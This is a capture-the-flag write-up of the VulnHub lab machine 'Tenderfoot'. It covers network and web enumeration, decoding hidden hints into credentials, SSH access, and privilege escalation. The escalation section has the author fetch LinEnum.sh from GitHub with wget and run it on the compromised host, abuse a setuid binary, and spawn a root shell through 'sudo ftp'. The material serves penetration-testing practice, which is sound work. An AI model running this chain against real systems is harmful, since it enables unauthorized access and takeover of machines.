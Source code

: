 # Tenderfoot
## Overview
This is a writeup of the vulnhub machine [tenderfoot](https://www.vulnhub.com/entry/tenderfoot-1,581/)
## Key Takeaways
1. If it looks like base64 encoded, right might be base32 encoded instead
2. When in a home directory, always enum with `find .`
3. Always review the setuid programs
4. Always check `sudo -l` for compromised accounts
## Enumeration
### Find the Machine
Find the machine's IP with a fast nmap scan
```bash
nmap -T4 -Pn -n -sTC -F 192.168.1.0/24 --open
```
![Scan Results](img/find-host.png)
### Enumerate Machine Fully
Two methods to do withs, either manually with nmap or with an automator such as [nmapAutomator](https://github.com/ryohare/nmapAutomator). NmapAutomator will run additional scripts based on the findings as well such as gobuster.
#### Manual NMAP
```bash
nmap -n -p- -sTCV -T4 -Pn 192.168.1.23
```
![Nmap Full Results](img/nmap-full-results.png)
#### NmapAutomator
```
nmapAutomator 192.168.1.23 All
```
![Nmap Automator](img/nmap-automator-running.png)
After scanning either way, it appears only SSH and HTTP are open. SSH is usually never the avenue, so time to start enumerating the webserver with Nikto and Gobuster.
### Enumerating HTTP (80)
#### Nikto
```bash
nikto -h 192.168.1.23
```
![nikto](img/nikto.png)
Nikto reveals the webserver is a bit dated, `apache 2.4.28`. A vuln scan can be run via nmap to see if there is anything which we could do to exploit the webserver.
```bash
nmap -n -p80 -T4 -sCTV --script=vuln --script-args="unsafe=1" 192.168.1.23
```
![HTTP Vulns via Nmap](img/nmap-http-vulns.png)
The Vuln script reveals that there are multiple vulns affecting this version of apache, with exploit code. After reviewing, one is determined to be a local privesc, which could be helpful further down the road. The others are DoS vulns so they dont seem that helpful there. Probably time to move onto web directory enumeration.
#### Robots.txt
Before gobuster, always check for a robots.txt
```bash
curl -v http://192.168.1.23/robots.txt
```
![robots.txt](img/robots.png)
This seems to indicate that there is a hints directory, going down this rabit holes...
```bash
curl -v http://192.168.1.23/hint -L
```
![hint](img/hint.png)
Looks like base64 and attempted to decode, however it failed. Turns out, (needed to google thig) its base32 encoded. So, *if it looks base 64 but gives out garabage, maybe its base32*.
```bash
echo -n "EBPV6X27L5PV6X27L5PV6X27L5PV6X27L4FHYICOGB2GQ2LOM4QEQZLSMUQSAIBAEAQCA7AKPQQFI4TZEBZW63LFORUGS3THEBSWY43FEF6AUIBNFUWS2LJNFUWS2LJNFUWS2LJNFUWS2LIKIVXHK3LFOJQXIZJANVXXEZJAHIUQ====" | base64 -d
```
![hint-decoded](img/hint-decoded.png)
Well, it seems like this was a dead end, on to full web directory enumeration with gobuster.
### Gobuster
Note, the default gobuster in nmapAutomator uses the dirbuster 2.3 medium wordlist. During this enumeration, we didn't turn up any useful directories, so we moved to the large list to see if we just missed the directory.
```bash
gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-big.txt -u http://192.168.1.23/ -s '200,204,301,302,307,403,500' -e | tee "80_gobuster_common.txt"
```
![gobuster](img/gobuster.png)
Running with the wordlist from seclists (which I should use as the source for all my wordlists at this point), we find a directory of interest `http://192.168.1.23/fotocd`. Investigating with curl.
```bash
curl -v http://192.168.1.23/fotocd -L
```
![brainfuck](img/brainfuck.png)
Looks like braille or something. Taking the advice its something called brainfuck. Using an online decoder to figure this out [here](https://www.dcode.fr/brainfuck-language).
![brainfuck-decoded](img/brainfuck-decoded.png)
Looking at the output, it says if we have a username, we have enough to get into the system. The base64 encoded string likely then decodes to a password for the username we don't have yet.
```bash
echo -n "JDk5OTkwJA==" | base64 -d
```
Which decodes to `$99990$`. Next, we need to hunt for the username. Looking at the data discovered via the gobuster command, there is nothing else there. Lets use gobuster with another wordlist to try and eumerate web-content now, not just directories. In this case, we can use the same wordlist and check for additional files in the directories by adding extensions with the `-x` flag.
```bash
gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-big.txt -u http://192.168.1.23/ -x .php,.txt,.js,/,.html -s '200,204,301,302,403,500'
```
![gobuster-2](img/gobuster-2.png)
In this scan, we detect 1 new file, `entryp.js` Curling it we find what might be a username, `monica`. 
![entryp.js](img/entry.png)
Using this combination, and SSH attempt can be tried and is found to be successfull.
```bash
ssh monica@192.168.1.23
```
![SSH Access](img/ssh-initial-access.png)
## Privilege Escalation
Now, we can start looking at what we have on the box. My favorite enumeration script is LinEnum.sh. This scan be downloaded directly from the internet [here](https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh).
```bash
wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh
chmod +x LnEnum.sh
./LinEnum.sh
```
![linenum](img/linenum.png)
Looking over the results, it is observed that there is another use on the system, `chandler`. Additonally, when we look at the setuid programs, there appears to be something out of place `-rwsr-xr-x 1 root root 8720 Oct  4 18:09 /opt/exec/chandler
`. Running the command, we see that this sets our user ID to `chandler`.
```bash
/opt/exec/chandler
```
![setuid](img/setuid.png)
### Enumerating Chandler
Now that we've become a different user, lets enumerate what they can do. Moving their their home directory, we can enumerate all the files in them to see if there are any hints here.
![chandler home](img/chandler-home.png)
From the directory structure, we see that the user has some level of sudo access, Attempting to run it, it prompts for a password, so without this, we will not have any ability to exploit any sudo related capabilities. There are a couple text files which may be helpful. Cating them out below.
![notes](img/notes.png)
One of the notes drops the seemingly base64 encoded string `OBQXG43XMQ5FSMDVINZDIY3LJUZQ====`, but that decodes to jibberish. Trying base32, it decodes to something that looks like a password, `Y0uCr4ckM3`.
![chandler password](img/chandler-password.png)
Trying with with `sudo -l` with the password, we get an error that the user is not authorized to run sudo on this machine. Likely, its because we are still viewed in some respects as `monica` since we only got this shell via a setuid command. Knowing the password, we can `su` to `chandler` to get a fully authenticated shell. Doing that, then running `sudo -l`, we get the sudo capabilities.
![sudo capabilities](img/sudo-capabilities.png)
Using the resource referenced in one of the notes, [GTFOBins](https://gtfobins.github.io/), we find `ftp` there which is the command `chandler` can run as root. Following the steps, we are able to get a root shell.
```bash
sudo ftp
!/bin/bash
whoami
```
![root](img/root.png)
